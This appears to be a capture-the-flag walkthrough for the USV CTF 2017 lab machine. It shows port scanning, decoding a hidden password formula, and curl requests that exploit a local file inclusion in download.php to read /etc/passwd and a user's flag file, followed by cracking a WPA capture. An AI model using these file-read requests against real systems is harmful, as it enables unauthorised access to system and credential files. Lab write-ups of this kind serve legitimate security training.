 ```yaml
---
title: USV CTF-2017
categories: [Proving Grounds Play]
tags: [LFI, Recon, hccapx, PrivEsc]
image:
  path: /Vulnhub-Files/img/USV_CTF_2017/Untitled%202.png
  alt:  USV CTF 2017 Machine 🖥️
---
```



## Lets find out the Victim machines IP ⬇️IP : 

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled.png)

```
{: .nolineno}
IP : 10.0.2.35
```
{: .nolineno}

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.35
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 14:10 IST
Nmap scan report for 10.0.2.35
Host is up (0.00057s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            ProFTPD 1.3.5b
22/tcp    open  ssh            OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 d71072d8d276b21e28110411b4e2984e (RSA)
|   256 b82961bbf18cc464ddf50ea0a22ffdaa (ECDSA)
|_  256 2b7e351042ca082066418880a04f02e6 (ED25519)
80/tcp    open  http           Apache httpd
|_http-server-header: Apache
|_http-title: Site does not have a title (text/html).
4369/tcp  open  epmd           Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    ejabberd: 34713
5222/tcp  open  jabber         ejabberd (Protocol 1.0)
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|       lang: en
|       server name: localhost
|       version: 1.0
|     errors: 
|       host-unknown
|       host-unknown
|       (timeout)
|     auth_mechanisms: 
|     features: 
|     unknown: 
|     stream_id: 13835454705195693772
|     compression_methods: 
|_    capabilities: 
5269/tcp  open  jabber         ejabberd
| xmpp-info: 
|   Ignores server name
|   info: 
|     xmpp: 
|       version: 1.0
|     capabilities: 
|   pre_tls: 
|     xmpp: 
|     capabilities: 
|     features: 
|       TLS
|   post_tls: 
|     xmpp: 
|_    capabilities: 
5280/tcp  open  ssl/xmpp-bosh?
| ssl-cert: Subject: commonName=ejabberd/organizationName=stl.int
| Not valid before: 2017-10-23T20:50:49
|_Not valid after:  2018-10-23T20:50:49
|_ssl-date: TLS randomness does not represent time
15020/tcp open  http           Apache httpd
|_http-title: 400 Bad Request
|_http-server-header: Apache
34713/tcp open  unknown
MAC Address: 08:00:27:1A:A2:58 (Oracle VirtualBox virtual NIC)
Service Info: Host: localhost; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%203.png)

Now let’s try to brute force the password >>

From Source code I got a hex encoded script code after decoding it I got this >>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%204.png)

So this code gives me a formula to calculate password ⬇️

**(stringconcat(password+4469)-234562221224)*1988=1079950212331060**

After calculating I got the password =77779673 , Lets use it now —> 

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%205.png)

This is our `1st flag ➡️ Italy:46202df2ae6c46db8efc0af148370a78`

Now lets enumerate port 15020 >>

while looking into the ssl certificate  I got this next flag ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%206.png)

Our next `2nd flag ➡️ a51f0eda836e4461c3316a2ec9dad743`

Further Enumeration I got this >>>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%207.png)

So lets see the source code ➡️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%208.png)

Now lets access the download.php file >>>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%209.png)

So I see we have LFI but I can’t execute it through web so lets use `curl`.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/etc/passwd" https://10.0.2.35:15020/blog/download.php -k
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
teo:x:1000:1000:teo,,,:/home/teo:/bin/bash
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:108:65534::/run/proftpd:/bin/false
ftp:x:109:65534::/srv/ftp:/bin/false
kevin:x:1001:1001::/home/kevin:
epmd:x:110:113::/var/run/epmd:/bin/false
ejabberd:x:111:114::/var/lib/ejabberd:/bin/sh
oana:x:1002:1002::/home/oana:
```
{: .nolineno}

Now I got it , let ‘s access the flag.txt from kevin home.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/home/kevin/flag.txt" https://10.0.2.35:15020/blog/download.php -k
Croatia: e4d49769b40647eddda2fe3041b9564c
```
{: .nolineno}

Now I downloaded the whole /vault/ directory ➡️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2010.png)

Now lets find the files inside the vault ➡️

```bash
find ./ -type f | grep -v .html
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2011.png)

Now lets see the cap file ⤵️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2012.png)

Now lets convert this WPA cap file to the format of hccapx hash format so that we can use our rockyou.zip file decode the hash.

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2013.png)

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2014.png)

so the password is `minion.666` let’s use this to login into the port 15020 with user as `admin`.

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2015.png)

Source Code ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2016.png)

`flag 4 ➡️ Philippines: 551d3350f100afc6fac0e4b48d44d380`